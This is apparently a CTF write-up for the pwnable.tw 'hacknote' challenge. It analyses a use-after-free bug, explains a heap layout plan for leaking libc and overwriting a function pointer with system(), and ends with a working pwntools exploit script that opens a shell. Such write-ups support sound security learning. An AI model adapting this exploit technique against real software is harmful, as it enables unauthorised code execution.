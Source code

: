 
# 📌 **hacknote - pwnable.tw**  

## 🔹 **Vulnerability Analysis**  

### 📌 **Vulnerable Function: `FUN_080487d4`**  
The vulnerability exists in the function **`FUN_080487d4`**, which suffers from a **Use-After-Free (UAF)** issue.  

---

### 🛠️ **Breakdown of the Issue**  

- The program allows us to create **a maximum of 5 notes**, where we specify the size of each note, and memory is allocated dynamically from the **heap**.  
- Each allocated note has an **extra seperate 8 bytes** for a function pointer, which is used when printing the note and the buffer ptr for the note description.  
- When a note is **freed**, its reference is **not set to NULL**, leading to **Use-After-Free (UAF)** and potential **Double-Free** vulnerabilities.  
- However, **Double-Free is not exploitable** here since the program restricts note creation to only 5 times.  
- **UAF is useful**, as it allows us to hijack the function pointer and overwrite it to achieve **EIP control**.  

---

## 🏴 **Exploitation Plan**  

### 1️⃣ **Leaking a libc address**  
- Allocate a **200-byte chunk** and then **free it**.
- Allocate a guard chunk to prevent the target chunk from merging with the top chunk upon being freed.
- Since the chunk goes to the **unsorted bin**, the **bk pointer** will leak an address from the **main arena** in libc.  
- Allocate a new chunk smaller than 200 bytes to write the first 4 bytes which are zeroed to leaking the bk pointer (the next 4 bytes).

### 2️⃣ **Hijacking the Function Pointer**  
- Allocate two chunks of random sizes (each greater than 16 bytes) to ensure they don’t end up in the same fastbin bucket as the chunks extra 8 bytes (which holds chunks up to 16 bytes). The additional 8 bytes allocated alongside each chunk will help us later retrieve and overwrite the function pointer used for printing the note.
  ```
    +-------------------------------+
    |      chunk1 extra 8 bytes      |
    +-------------------------------+
    |  fun ptr  |  chunk1 ptr        |
    +-------------------------------+  <- Chunk 1 metadata
    |        40 bytes               |
    +-------------------------------+
    |      chunk2 extra 8 bytes      |
    +-------------------------------+
    |  fun ptr  |  chunk2 ptr        |
    +-------------------------------+  <- Chunk 2 metadata
    |        40 bytes               |
    +-------------------------------+
    |            TOP                 |  <- Top chunk (wilderness)
    |            ...                 |
    +-------------------------------+
  ```
- Free them, and then allocate a new **8-byte chunk**.
  ```
      +-------------------------------+
    |    Chunk 3 extra 8 bytes      |
    +-------------------------------+
    |  fun ptr  |  chunk1 ptr        |
    +-------------------------------+  
    |            FREE                |
    +-------------------------------+
    |       Chunk 3 (8 bytes)        |
    +-------------------------------+
    |  system  |        sh           |
    +-------------------------------+  
    |            FREE                |
    +-------------------------------+
    |            TOP                 |  <- Top chunk (wilderness)
    |            ...                 |
    +-------------------------------+
  ```
- This allows us to **reclaim a previously freed note’s chunk** from the fastbin.  
- Overwrite the **function pointer** (used for printing notes) with **`system()`**, leading to **EIP control**.  
- UAF for the previous note to print its content which will result in calling system.
---

## 🔹 **Exploit Code**  
```python
#!/usr/bin/python3.10
from pwn import *

# p = process("./hacknote_patched")
p = remote("chall.pwnable.tw", 10102)

index = 0

def add_note(p, size, note):
    p.sendafter("Your choice :", "1")
    p.sendafter("Note size :", str(size))
    p.sendafter("Content :", note)

def delete_note(p, ind):
    p.sendafter("Your choice :", "2")
    p.sendafter("Index :", str(ind))

def print_node(p, ind, data2recv):
    p.sendafter("Your choice :", "3")
    p.sendafter("Index :", str(ind))
    if data2recv != "" :
	    p.recvuntil("CCCC")
	    return p.recvline()[:-1]


puts_got_addr = 0x804a024


add_note(p, 200, "AAAA")
add_note(p, 40, "BBBB")
delete_note(p, 0)

# Leak libc address
add_note(p, 16, "CCCC")  # Leak libc - 0x175f38 = system
add_note(p, 40, "DDDD")
addr = int.from_bytes(print_node(p, 0, "CCCC"), "little")
system_addr = addr - 0x175f38

print(f"Leaked address: {hex(addr)}")
print(f"System address: {hex(system_addr)}")


delete_note(p, 0)
delete_note(p, 3)
add_note(p, 8, p32(system_addr, "little") + b';sh\x00')
print_node(p, 0, "")

p.interactive()
